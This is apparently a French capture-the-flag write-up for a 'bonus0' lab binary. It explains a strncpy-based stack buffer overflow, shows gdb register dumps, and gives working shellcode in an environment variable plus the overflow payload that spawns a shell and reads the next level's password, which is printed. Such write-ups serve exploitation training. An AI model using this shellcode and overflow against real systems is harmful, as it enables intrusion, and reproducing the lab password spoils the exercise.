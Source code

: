 ```
./bonus0
 -
test
 -
12
test 12
```

On a un executable qui attend 2 entrées et qui les affiche.
Comprenons le code.
```
objdump -M intel -d bonus0
```

On remarque un main avec 2 fonctions: p et pp.
Le main crée un buffer de 42 (//0x40 - 0x16) puis appelle la fonction pp en lui transmettant le buffer en argument.
La fonction pp crée 2 buffer de 20 de taille qui seront utilisés par la fonction p qui est appelée 2 fois et qui a pour utilisation d'afficher une string (" - ")
puis elle va read et ecrire le resultat du read dans le pointeur passé en argument. En revanche strncpy ne rajoute pas de '\0' si la longeur max est atteinte.
Les espaces memoires des 2 buffers se suivent, donc si a fait plus de 20 caracteres, on va avoir les 2 chaines qui se suivent et donc notre buffer de 42 sera trop petit.
(40 + 1 + 20 > 42) et donc segfault

```
gdb ./bonus0
(gdb) r
Starting program: /home/user/bonus0/bonus0
 -
01234567890123456789
 -
01234567890123456789
0123456789012345678901234567890123456789�� 01234567890123456789��

Program received signal SIGSEGV, Segmentation fault.
0x32313039 in ?? ()
(gdb) info registers
eax            0x0	0
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xb7fd0ff4	-1208152076
esp            0xbffffce0	0xbffffce0
ebp            0x38373635	0x38373635
esi            0x0	0
edi            0x0	0
eip            0x32313039	0x32313039
```
On comprend donc que l'EIP est réécrit au 9eme caractere.

A cause de l'espace reduit nous allon ecrire notre shell code (le meme que celui du niveau 9) dans une variable d'environement.
D'ailleurs vous remrquerez que l'environnement est un peu cassé (impossible de Ctrl L ou de clear), c'est ce qui m'a mit sur la voie.
Puis on localise son adresse afin de l'executer.
```
export EXPLOIT=$(python -c 'print "\x90" * 4096 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')
gdb ./bonus0
b main
x/s *environ
0xbfffe8e0
p/x 0xbfffe8e0+500 # on se decale dans la memoire car les arguments pourraient nous decaler. Etant donner qu'on a que des nop ca ne change rien.
$3 = 0xbfffead4
```

Puis on lance la commande:
```
(python -c 'print "A"*4095+"\n"+"\x90"*9+"\xd4\xea\xff\xbf"+"C"*20'; cat) | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAA�������������CCCCCCC�� �������������CCCCCCC��
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
